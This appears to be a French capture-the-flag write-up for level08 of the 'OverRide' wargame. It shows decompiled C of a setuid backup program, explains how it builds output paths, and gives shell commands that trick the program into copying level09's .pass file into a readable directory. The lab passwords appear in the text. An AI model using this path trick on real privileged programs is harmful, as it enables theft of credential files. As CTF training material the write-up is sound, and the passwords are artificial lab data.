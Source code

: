```
level08 : 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

![](Pasted%20image%2020240809055909.png)

```c
int main(int param_1,char **param_2)

{
  char cVar1;
  int fd;
  int iVar2;
  FILE *log_file;
  FILE *pass_file;
  ulong uVar3;
  undefined8 *puVar4;
  long in_FS_OFFSET;
  byte bVar5;
  char char_pass;
  char prefixeFile[] = "./backups/";
  undefined2 local_70;
  char local_6e;
  long canary;
  
  bVar5 = 0;
  canary = *(long *)(in_FS_OFFSET + 0x28);
  char_pass = -1;
  if (param_1 != 2) {
    printf("Usage: %s filename\n",*param_2);
  }
  log_file = fopen("./backups/.log","w");
  if (log_file == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n","./backups/.log");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  log_wrapper(log_file,"Starting back up: ",param_2[1]);
  pass_file = fopen(param_2[1],"r");
  if (pass_file == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n",param_2[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }

  uVar3 = -1;
  puVar4 = &prefixeFile;
  do {
    if (uVar3 == 0) break;
    uVar3 = uVar3 - 1;
    cVar1 = *(char *)puVar4;
    puVar4 = (undefined8 *)((long)puVar4 + (ulong)bVar5 * -2 + 1);
  } while (cVar1 != '\0');
  strncat((char *)&prefixeFile,param_2[1],99 - (~uVar3 - 1));
  fd = open((char *)&prefixeFile,0xc1,0x1b0);
  if (fd < 0) {
    printf("ERROR: Failed to open %s%s\n","./backups/",param_2[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    iVar2 = fgetc(pass_file);
    char_pass = (char)iVar2;
    if (char_pass == -1) break;
    write(fd,&char_pass,1);
  }
  log_wrapper(log_file,"Finished back up ",param_2[1]);
  fclose(pass_file);
  close(fd);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

```c
int main(int param_1,char **param_2)

{
  char cVar1;
  int fd;
  int iVar2;
  FILE *log_file;
  FILE *pass_file;
  ulong uVar3;
  undefined8 *puVar4;
  long in_FS_OFFSET;
  byte bVar5;
  char char_pass;
  undefined8 prefixeFile;
  undefined2 local_70;
  char local_6e;
  long canary;
  
  bVar5 = 0;
  canary = *(long *)(in_FS_OFFSET + 0x28);
  char_pass = -1;
  if (param_1 != 2) {
    printf("Usage: %s filename\n",*param_2);
  }
  log_file = fopen("./backups/.log","w");
  if (log_file == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n","./backups/.log");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  log_wrapper(log_file,"Starting back up: ",param_2[1]);
  pass_file = fopen(param_2[1],"r");
  if (pass_file == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n",param_2[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  prefixeFile._0_1_ = '.';
  prefixeFile._1_1_ = '/';
  prefixeFile._2_1_ = 'b';
  prefixeFile._3_1_ = 'a';
  prefixeFile._4_1_ = 'c';
  prefixeFile._5_1_ = 'k';
  prefixeFile._6_1_ = 'u';
  prefixeFile._7_1_ = 'p';
  local_70._0_1_ = 's';
  local_70._1_1_ = '/';
  local_6e = '\0';
  uVar3 = 0xffffffffffffffff;
  puVar4 = &prefixeFile;
  do {
    if (uVar3 == 0) break;
    uVar3 = uVar3 - 1;
    cVar1 = *(char *)puVar4;
    puVar4 = (undefined8 *)((long)puVar4 + (ulong)bVar5 * -2 + 1);
  } while (cVar1 != '\0');
  strncat((char *)&prefixeFile,param_2[1],99 - (~uVar3 - 1));
  fd = open((char *)&prefixeFile,0xc1,0x1b0);
  if (fd < 0) {
    printf("ERROR: Failed to open %s%s\n","./backups/",param_2[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    iVar2 = fgetc(pass_file);
    char_pass = (char)iVar2;
    if (char_pass == -1) break;
    write(fd,&char_pass,1);
  }
  log_wrapper(log_file,"Finished back up ",param_2[1]);
  fclose(pass_file);
  close(fd);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

On peux voir que le main regarde que nous avons bien fourni un argument au lancement du programme.
Cet argument va être utiliser dans un "open" en mode read donc on doit lui donner un fichier.

On remarque également qu'un fichier .log est également open ou créer a l'emplacement "./backups/" avec des droit d’écriture.

On vois aussi un 3eme open qui est effectué en mode write mais cette fois-ci le nom de fichier est une concaténation de la string "./backups/" et notre argument. Dans ce fichier on remarque qu'il est écrit ce que contient le fichier de l'argument caractère par caractère.

Le but serai donc de charger le fichier .pass du level09 pour qu'il inscrit sont contenu dans un nouveau fichier que nous allons pouvoir ouvrir.

```
level08@OverRide:/tmp$ mkdir -p /tmp/home/users/level09/
level08@OverRide:/tmp$ mkdir backups
level08@OverRide:/tmp$ ~/level08 ../home/users/level09/.pass
level08@OverRide:/tmp$ cat /tmp/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level08@OverRide:/tmp$
```

```
level09 : fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```